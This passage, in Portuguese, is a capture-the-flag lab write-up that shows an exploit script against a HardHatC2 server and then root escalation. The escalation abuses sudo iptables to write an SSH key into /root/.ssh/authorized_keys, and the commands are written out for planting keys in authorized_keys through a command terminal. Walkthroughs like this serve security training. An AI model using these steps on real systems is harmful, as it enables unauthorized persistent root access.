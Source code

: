 Podemos então executar o script e fazer login no sistema.
```sh
python3 ./hardhatc2_exploit.py
```
![[Pasted image 20250325100245.png]]

Agora no menu vamos em `ImplantInteract` e `Terminal`. Aqui podemos executar comando no sistema então podemos seguir a mesma estratégia de escrever nossa `public key` no arquivo `~/.ssh/authorized_keys`.

Enviei primeiro o comando `id` para ver em qual usuários executa.
![[Pasted image 20250325100910.png]]

Então podemos inserir nossa chave.
```sh
echo "<YOUR_PUBLIC_KEY>" > ~/.ssh/authorized_keys
```

Agora entramos com o usuário ``sergej``
![[Pasted image 20250325101351.png]]
***
# Priv Esc
Agora podemos tentar listar os comando que podemos executar com `sudo`.
```sh
sudo -l
```
![[Pasted image 20250325101724.png]]

Podemos executar 2 comandos como `root`, ``iptables`` e ``iptables-save``. Novamente podemos pesquisar sobre eles para achar formas de escalar privilégio.
![[Pasted image 20250325102156.png]]

>[!info]
>Reserve um tempo para ler o [Post](https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/) sobre o assunto.

Aqui podemos comentar um comando como o ``iptables`` e salva-lo em qualquer arquivo. Aqui vou  adicionar nossa `public key` no arquivo `/root/.ssh/authorized_keys`. 
```sh
sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\n<YOUR_PUBLIC_KEY>\n'

sudo /usr/sbin/iptables -S

sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```

Após ter adicionado, podemos fazer ``ssh`` para a conta de ``root`` e pegar a flag de `root`.
![[Pasted image 20250325103629.png]]
**Owned !!!**
***

![[Pasted image 20250325104558.png]]